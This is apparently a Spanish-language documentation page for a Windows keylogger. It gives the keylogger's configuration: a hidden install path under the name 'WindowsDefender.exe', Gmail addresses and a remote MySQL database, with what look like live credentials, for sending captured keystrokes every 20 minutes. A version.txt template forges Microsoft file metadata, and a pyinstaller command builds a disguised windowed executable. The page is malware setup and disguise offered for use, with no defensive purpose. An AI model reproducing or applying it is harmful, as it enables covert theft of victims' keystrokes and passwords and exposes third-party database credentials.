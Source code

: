 [Volver al a la documentación](../README.md)

# Custom __[Solo para programadores intemedio de python]__

Proceso de Opciones avanzada del keylogger.

__NOTA:__ Si no sabe no toque.
````py

# ***************************************   ZONA CUSTOM AVANZADA  ***********************************

# NOTA:| Solo Cambie éstas variables si sabe      |
#      | lo que está haciendo, en caso contrario  |
#      | el Keylogger no funcionará correctamente |

def GetNameKey():                   # Retorna el nombre del Keylogger compilado *.EXE
    return "WindowsDefender.exe"    # este archivo debe tener el mismo nombre "WindowsDefender.py"  
def GetPathOcult():                 # Path de la carpeta donde se ocultará el Keylogger
    return "C:\\Users\\Public\\Security\\Windows Defender\\"
def logKeyPath():   # Ruta del registro de teclas.
    # Ruta donde se guardará temporalmente el Registro de teclas
    return "C:\\Users\\Public\\Security\\Settings\\"
def LogName():  # Es el nombre que tendrá el registro de teclas.
    return "reg.k"             # <= Opcional, cambie de nombre al archivo 
def FilePath():
    return GetPathOcult()+GetNameKey()  # <No cambiar>

# ************************************  FIN ZONA CUSTOM AVANZADA   *********************************



# ************************************  FIN ZONA CUSTOM BÁSICA   *********************************


# ************ Zona Gmail ************* 
def emailP():# Correo de envío [Primaria]                    
    return "correo1@gmail.com"  # <<== Cambia éste correo
def passP():                    # <<== Contraseña del correo
    return "contra1"
def emailS():# Correo de envío [Segundaria]     <=> Solo si hay algún problema de envío con el correo Principal
    return "correo2@gmail.com"  # <<== Cambia éste correo
def passS():                   
    return "pass2"              # <<== Contraseña del correo 

def ReceiveE():#Correos que recibirán el registro de teclas.
    #return ["Recibe1@gmail.com", "Recibe2@hotmail.com", "Recibe3@yahoo.com"]   # MultiCorreo
    return ["CorreoReceptor@gmail.com"]                                         # MonoCorreo
# ************ Fin Zona Gmail ************* 

# ************ Start Zone DATABASE ************* 
def DB_HOST():
    return "bh1g5gnxzw2igrvui8hq-mysql.services.clever-cloud.com"   # Host
def DB_USER():
    return "udwlsyrbtldkznqo"                                       # Usuario de la base de datos
def DB_PASS():
    return "OR2i2dfdgWek0UDiAv4f"                                   # Contraseña de la Base de Datos
def DB_NAME():
    return "bh1g5gnxzw2igrvui8hq"                                   # Nombre de Base de datos
def DB_PORT(): 
    return "3306"                                                   # Opcional en algunos casos

# ************ Fin Zone DATABASE ************* 
def GMailOrDataBase():
    return 1    # 1 = DataBase 
                # 0 = Gmail
                # (en las proximas actualizaciones , ambas a la vez)

def timeSend(): # Tiempo de envío perzonalizado
    return 20 #Minutos                 <= Escoja su tiempo en minutos

# ************ Zona MediaFire *************     
# Se usará el API de Mediafire para subir el archivo reg.k(registro de teclas)
#def MFUser():
#    return "corroe@gmail.com"                   # Proximas actualizaciones...

#def MFPass():
#    return "contra"

# ************ Zona MediaFire ************* 

# ************************************  FIN ZONA CUSTOM BÁSICA   *********************************
````

# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Si el siguiente proceso se realiza con exito, el keylogger estará disfrazado así como las siguientes imagenes.
    

    ![Imagen1](https://i.imgur.com/MQAiVnJ.png)
    ![Imagen2](https://i.imgur.com/mTBByRy.png)

    ![Imagen1](https://i.imgur.com/wGTfC4T.png)
    ![Imagen2](https://i.imgur.com/Txt3QFS.png)





    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````r
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft CorpoKeyloggerion'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft CorpoKeyloggerion. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae OpeKeyloggering System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````




3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:


````bat
pyinstaller --clean   --distpath "EXE" -F --windowed --icon icon.ico --version-file version.txt "Tu nombre custom".py
````